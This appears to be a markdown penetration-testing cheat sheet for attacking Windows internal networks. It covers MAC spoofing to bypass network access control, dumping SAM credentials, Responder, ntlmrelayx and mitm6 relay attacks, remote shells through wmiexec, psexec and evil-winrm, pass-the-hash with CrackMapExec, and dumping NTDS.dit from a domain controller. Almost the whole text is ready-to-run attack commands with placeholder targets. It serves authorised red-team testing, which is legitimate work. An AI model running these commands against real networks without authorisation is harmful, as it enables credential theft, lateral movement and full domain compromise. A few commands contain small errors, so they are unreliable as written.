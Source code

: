 # Internal Penetration Testing

## **No network access**

### Wi-Fi

* Crack WPA or crack/replay PEAP

> For more details, see next cheatsheet : [WiFi](02-wifi.md)

### NAC - MAC filtering

1. Spoof mac from any authorized device \(e.g printer or voip phone\) and disconnect it: 
```sh
macchanger -r eth0
```
2. force your static IP to match the one that you spoofed the mac from : 
```sh
sudo ifconfig 10.11.12.13/24 && sudo ip route add default via <gateway_ip>
```

### NAC - 802.1X

* [Fenrir](https://github.com/Orange-Cyberdefense/fenrir-ocd) (IEEE 802.1X bypass)

---

## **No account yet**

### Physical access

Boot from Kali Linux and dump creds

```bash
cd SystemRoot%\system32\Config\SAM
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY -local
```
> For more details, see next cheatsheet : [Windows Post Exploitation](05-post-exploitation-windows.md)

### Port and service scan

nmap

```sh
nmap -Pn -n -sSUV -n -vvv --reason -pT:137-139,445,U:137-139 -oA SMB <hosts>
nmap --version-all -sV -sC -oA top1000 <hosts>
nmap --version-all -sV -sC -p- -oA allports <hosts>
```

Search for low hanging fruits \(MS17 / default password TOMCAT VNC ... \)

```bash
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/http/tomcat_mgr_login
searchsploit <service_name>
```

### Man-In-The-Middle

Responder + NTLMrelayx

1. First we need to edit  responder.conf like this :

`vim /usr/share/responder/Responder.conf`

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

2. Then we create a list of targets :

```bash
nmap -T4 -Pn -p 445 --open -oA <outfile> <targets>
cat *.gnmap | grep -i "open/tcp" | cut -d " " -f2 | sort -u > perim_up_smb.txt
cme smb perim_up_smb.txt --gen-relay-list relaylistOutputFilename.txt
```

> if the scope is small : `cme smb <targets> --gen-relay-list relaylistOutputFilename.txt`

3. After we can run Responder + ntlmrelayx

```bash
python Responder.py -I <interface> -rdw
ntlmrelayx.py -tf relaylistOutputFilename.txt
```

> This command will generate many log files which contain SAM hashes, just get all these files and store it into a formatted file that includes all hashes. \( `cat *.sam |sort -u > hashs.txt` \) Then you can just run CrackMapExec on full scope using theses hashes :

`crackmapexec smb perim_up_smb.txt -u Administrator -d '.' -H hashs.txt --lsa`

mitm6 + NTLMrelayx

```bash
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
ntlmrelayx.py -tf relaylistOutputFilename.txt -6 
```

ARP \(use with caution !\)

```bash
Bettercap
Cain.exe (& Abel)
```

### Domain enum

> For more details, see next cheatsheet : [Domain Escalation](08-domain-escalation.md)

---


## Unprivileged account only 

### Get a shell

> for winRM do : `PATH="ruby -e 'puts Gem.user_dir'/bin:$PATH"`

```bash
.\WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
evil-winrm -i <target> -u <user> -p '<pass>'
python psexec.py '<user>:<pass>@<target>'
```

---

### Local Privilege Escalation

> For more details, see next cheatsheet : [Local Privilege Escalation Windows](03-lpe-windows.md)

---

### Domain Escalation

> For more details, see next cheatsheet : [Domain Escalation](08-domain-escalation.md)

---

## **Local Admin account**

### Post-Exploitation

> For more details, see next cheatsheet : [Local Privilege Escalation Windows](05-post-exploitation-windows.md)

### Replay the secrets found

Kerberos ticket, LM/NTLM hash or cleartext password with CrackMapExec

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --lsa
```

### Pivoting

> For more details, see next cheatsheet : [Pivoting](07-pivoting.md)

### Domain escalation

> For more details, see next cheatsheet : [Domain Escalation](08-domain-escalation.md)

---

## **Domain admin account**

### Dump NDTS.dit from DC

```bash
cme smb 192.168.1.100 -u <domain_admin> -p '<pass>' --ntds
```